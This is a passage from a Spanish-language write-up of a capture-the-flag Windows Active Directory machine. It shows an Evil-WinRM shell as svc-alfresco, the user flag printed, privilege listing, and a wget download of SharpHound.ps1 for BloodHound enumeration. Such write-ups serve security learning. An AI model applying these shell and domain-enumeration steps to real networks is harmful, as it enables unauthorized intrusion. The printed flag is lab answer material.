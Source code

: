 ## User.txt 

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/17/2023   4:13 PM             34 user.txt
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
536a6fbc33b268f9ab9687239d4db372
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 
```

## Escalada de Privilegios 

- No vemos nada interesante.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

- Vamos a usar **Bloodhound** para que nos muestre formas de elevar nuestro privilegio pero para eso primero tenemos que descargar y subir a la maquina el **SharpHound.ps1** <https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1>.

```bash
❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
--2023-06-17 18:53:48--  https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.111.133, 185.199.108.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.110.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 973325 (951K) [text/plain]
Grabando a: «SharpHound.ps1»

SharpHound.ps1                  100%[=======================================================>] 950.51K   715KB/s    en 1.3s    

2023-06-17 18:53:51 (715 KB/s) - «SharpHound.ps1» guardado [973325/973325]

```
